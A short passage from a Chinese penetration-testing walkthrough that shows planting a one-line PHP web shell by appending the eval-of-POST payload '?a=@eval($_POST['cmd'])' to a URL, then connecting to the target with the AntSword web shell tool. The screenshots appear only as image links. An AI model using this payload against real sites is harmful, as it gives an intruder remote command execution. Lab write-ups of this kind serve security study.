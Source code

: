 
#### 3.3.4.3. 添加一句话木马

这里我们在url后添加?a=@eval(\$\_POST\['cmd'\]),然后访问。

![image-20230413145143612](assets/I9wavYU2ERsTHlb.png)

#### 3.3.4.4. 连接一句话木马

这里我们使用蚁剑进行连接测试，然后连接目标主机。

![image-20230413145150073](assets/aMVslmuT729AUDw.png)

